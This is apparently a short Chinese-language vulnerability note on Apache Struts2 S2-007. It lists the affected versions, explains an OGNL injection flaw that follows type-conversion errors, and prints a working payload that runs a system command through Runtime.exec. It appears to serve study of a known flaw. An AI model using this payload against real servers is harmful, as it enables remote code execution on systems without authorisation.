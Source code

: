 ![图 2](2.png)

## s2-007

[参考](https://xz.aliyun.com/t/2684)

影响版本：2.0.0 - 2.2.3

配置验证规则后，类型转换出错时进行了错误的字符串拼接，从而可以执行 OGNL 表达式。这里的原理和 SQL 注入类似。

```
'+ (#_memberAccess["allowStaticMethodAccess"]=true,#foo=new java.lang.Boolean("false") ,#context["xwork.MethodAccessor.denyMethodExecution"]=#foo,@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('id').getInputStream())) + '
```
